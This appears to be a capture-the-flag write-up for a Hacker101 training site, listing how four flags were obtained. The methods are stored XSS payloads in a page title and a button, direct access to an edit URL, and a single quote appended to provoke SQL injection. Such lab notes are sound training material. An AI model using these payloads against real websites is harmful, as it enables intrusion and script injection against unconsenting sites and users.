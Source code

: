 # Flag 1
https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/6 -> flag
![](./images/1.png)
# Flag 2
create page and use XSS payload on title
<script>alert("xss")</script> 
when going back home, get flag

![](./images/2.png)
# Flag 3
on page 2, edit -> https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/2

change the button to this:
<button onclick=alert("pwned")>Some button</button>

popup with alert appears, now go to source code and flag is there
![](./images/3.png)

# Flag 4
add a single quote on the edit url
https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/2'

![](./images/4.png)